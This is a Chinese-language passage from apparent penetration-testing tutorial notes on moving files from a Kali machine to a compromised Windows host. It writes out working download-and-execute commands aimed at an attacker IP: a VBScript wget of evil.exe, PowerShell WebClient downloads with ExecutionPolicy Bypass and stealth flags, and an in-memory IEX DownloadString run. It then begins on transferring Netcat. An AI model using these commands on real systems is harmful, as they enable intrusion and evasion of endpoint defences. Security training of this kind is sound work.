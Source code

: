 我们可以运行这个（使用cscript）从我们的Kali机器下载文件：

```
cscript wget.vbs http://10.211.55.4/evil.exe evil.exe
```

对于最新版本的Windows，我们可以使用PowerShell作为更简单的下载替代方案。下面的示例显示了使用System.Net.WebClientPowerShell class。

```
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://10.211.55.4/evil.exe" >>wget.ps1
echo $file = "new-exploit.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```

现在我们可以使用PowerShell运行脚本并下载我们的文件。但是，为了确保正确和秘密地执行，我们在脚本的执行中指定了许多选项。

首先，我们必须允许使用ExecutionPolicy关键字和Bypass值执行PowerShell脚本（默认情况下受限制）。接下来，我们将分别使用-NoLogo和-NonInteractive来隐藏PowerShell徽标横幅并抑制交互式PowerShell提示。-NoProfile关键字将阻止PowerShell加载默认配置文件（这是不需要的），最后我们使用-File指定脚本文件：

```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoPro file -File wget.ps1
```

我们也可以将此脚本作为一行程序执行，如下所示：

```
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http:/ /10.211.55.4/evil.exe', 'new-exploit.exe')
```

如果我们想再次使用PowerShell来执行脚本，我们可以不用保存它System.Net.Webclient class。这是通过将DownloadString方法与Invoke-Expression cmdlet（IEX）相结合来实现的。

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1606228027808-952d1a72-ac41-4d83-81b7-774817828200.png)

接下来，我们将使用以下命令在受损的Windows计算机上运行脚本：

```
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString(' http://10.11.0.4/helloworld.ps1')
```

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1606228128684-8986bca2-1b9f-49c2-b607-be720612f72e.png)

PowerShell脚本的内容是从我们的Kali机器上下载并成功执行的，没有保存到受害者的硬盘上。

### 带exe2hex和PowerShell的Windows下载

在本节中，我们将采取一种有点迂回但非常有趣的路径，以便将二进制文件从Kali下载到受损的Windows主机。从Kali机器开始，我们将压缩要传输的二进制文件，将其转换为十六进制字符串，并将其嵌入到Windows脚本中。

在Windows机器上，我们将把这个脚本粘贴到shell中并运行它。它将把十六进制数据重定向到父进程，它将把它重新组装成二进制文件。这将通过一系列非交互式命令完成。

举个例子，让我们用powershell.exe通过远程shell将Netcat从Kali Linux机器传输到Windows客户端。

我们将从定位和检查nc.exe文件文件在Kali Linux上。

```
locate nc.exe | grep binaries
```

